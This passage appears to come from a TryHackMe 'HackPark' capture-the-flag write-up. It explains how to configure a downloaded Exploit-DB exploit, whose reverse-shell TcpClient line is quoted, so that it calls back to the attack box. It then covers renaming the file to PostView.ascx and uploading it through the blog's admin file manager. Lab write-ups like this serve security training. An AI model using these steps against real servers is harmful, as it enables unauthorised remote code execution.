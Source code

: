 Searching on exploitdb you will find the following exploit, download it.

![](../assets/images/tryhackme/offensive_pentesting/hackpark/exploit1.png)

The exploit is not plug and play, it requires some configuration.  
Find the following line in the exploit's code and replace the ip with your attack box ip and the port with port 443.

```bash
using(System.Net.Sockets.TcpClient client = new System.Net.Sockets.TcpClient("10.10.10.20", 4445)) {
```

The steps to use the exploit are clearly explained in the exploit itself.  
First, you need a way to upload the exploit on the target machine.  
Go to `http://10.10.108.43/admin/app/editor/editpost.cshtml`  
Click on the file manager as shown in the image below.

![](../assets/images/tryhackme/offensive_pentesting/hackpark/exploit2.png)

Remember to rename the exploit to **PostView.ascx** before uploading it, otherwise it won't work.

```bash
root@ip-10-10-75-156:~# mv 46353.cs PostView.ascx
```
